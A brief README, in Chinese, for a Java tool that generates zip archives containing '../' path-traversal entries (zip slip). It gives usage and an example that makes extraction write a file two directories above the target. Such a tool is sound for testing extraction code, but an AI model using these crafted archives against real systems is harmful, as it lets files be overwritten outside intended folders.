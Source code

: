 # zip_path_traversal
java生成包含../目录的压缩包

## 使用
`java -jar generateZip.jar parm1 parm2 parm3`

parm1为被压缩的文件、parm2为生成压缩文件的路径、parm3为添加的跨目录符号，如../../../sss/

## Example
`java -jar generateZip.jar "D:\\dir1\\dir2\\dir3\\test.txt"  "D:\\dir1\\dir2\\dir3\\test.zip" "../../"`

在D:\\dir1\\dir2\\dir3\\生成目录结构为../../test.txt的test.zip压缩包，该压缩包解压会跳到D:\\dir1\\test.txt
